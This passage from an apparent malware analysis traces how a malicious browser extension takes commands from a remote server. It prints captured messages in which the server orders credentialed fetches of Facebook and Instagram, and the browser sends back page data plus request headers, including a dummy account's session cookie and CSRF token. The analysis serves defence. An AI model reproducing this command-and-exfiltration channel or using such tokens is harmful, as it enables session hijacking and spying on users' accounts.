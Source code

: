 In effect, the server is remotely controlling my browser, and reading the responses that it gets. Had I been logged in, an attacker would have been reading off my friends' and family's activity feed. While that's a gross violation of privacy, at least my account wasn't compromised, since the response data doesn't include my session token.

The server does not send more requests for Facebook after this point, so it seems that the serverside logic is fairly complex, and uses the response data to check if a user is logged in before attempting to continue using their account. Confirming with the Reddit user in direct messages, had I been logged in, my account would probably have been used to promote influencer content:

> I first discovered it [because it accessed my] Facebook, but there was maybe 2-3 likes/day ...

#### Malicious Operations on Instagram

One minute and two seconds later, the server sends a new `createFetch` event, instructing my browser to load Instagram:

```
Server -> Client
42["createFetch",{"callBack":"initCallBack","uri":"https://www.instagram.com/","attr":
{"credentials":"include","headers":{"origin-zzz":"https://www.instagram.com",
"sec-fetch-dest":"document","sec-fetch-mode":"navigate","se-zzzc-fetch-site":"none",
"upgrade-insecure-requests":"1"},"referrerPolicy":"no-referrer-when-downgrade","body":null,
"method":"GET","mode":"cors"}}]
```

Now, our malware author gets lucky - I'm logged in to my dummy account. A request to Instagram is made, but to my surprise, two separate events are sent. One we expect, which is the callback containing the response data - identical to what we saw for Facebook, except this event is titled `initCallBack` instead of `initCallBackFB`:

```
Client -> Server
42["initCallBack",{"headerEntries":[["access-control-allow-credentials","true"],
["access-control-allow-origin","https://www.instagram.com"],["access-control-expose-headers",
"X-IG-Set-WWW-Claim"],["alt-svc","h3-29=\":443\"; ma=3600,h3-27=\":443\"; ma=3600"],
["cache-control","private, no-cache, no-store, must-revalidate"],["connection","close"],
["content-language","en"],["content-length","47356"],["content-security-policy","<INSTAGRAM 
CSP OMITTED FOR BREVITY>"],["content-type","text/html; charset=utf-8"],["date","Wed, 07 Oct 
2020 05:12:04 GMT"],["expires","Sat, 01 Jan 2000 00:00:00 GMT"],["pragma","no-cache"],
["strict-transport-security","max-age=31536000"],["vary","Accept-Language, Cookie, 
Accept-Encoding"],["x-accel-buffering","no"],["x-aed","20"],["x-content-type-options",
"nosniff"],["x-fb-trip-id","1679558926"],["x-frame-options","SAMEORIGIN"],["x-xss-protection",
"0"]],"data":"<HTML OMITTED FOR BREVITY>","ok":true,"status":200}]
```

The other is a surprise. My request headers, *including my session cookie*, are also stolen. The malware author could now hijack my current session with Instagram and browse as me from wherever they are in the world. While they could technically do something equivalent with some clever programming and a lot of `createFetch` events, this makes it even more trivial.

Notably, the `requestHeadersHandler` event wasn't specified in the `createFetch` event that was sent to my browser, so I'll need to hunt down why this event was triggered when looking at the malicious extension's internals:

```
Client -> Server
42["requestHeadersHandler",{"frameId":0,"initiator":"chrome-extension://
clddifkhlkcojbojppdojfeeikdkgiae","method":"GET","parentFrameId":-1,"requestHeaders":[
{"name":"se-zzzc-fetch-site","value":"none"},{"name":"origin-zzz","value":"https://www.
instagram.com"},{"name":"upgrade-insecure-requests","value":"1"},{"name":"User-Agent",
"value":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.
4240.75 Safari/537.36"},{"name":"Accept","value":"*/*"},{"name":"Sec-Fetch-Site",
"value":"none"},{"name":"Sec-Fetch-Mode","value":"cors"},{"name":"Sec-Fetch-Dest",
"value":"empty"},{"name":"Accept-Encoding","value":"gzip, deflate, br"},
{"name":"Accept-Language","value":"en-US,en;q=0.9"},{"name":"Cookie",
"value":"ig_did=0BD6DADB-8BE2-4CAC-8AD2-7C276D9054B6; mid=X305GAAEAAHAOaH2mauPtYA6R8pf; 
ig_nrcb=1; csrftoken=zepUGi0jiUJB7GfTBQ4cC2F1ZYn7J6W5; ds_user_id=43092726024; 
sessionid=43092726024%3AfQVgHKyfgJh3O7%3A19"}],"requestId":"65","tabId":-1,
```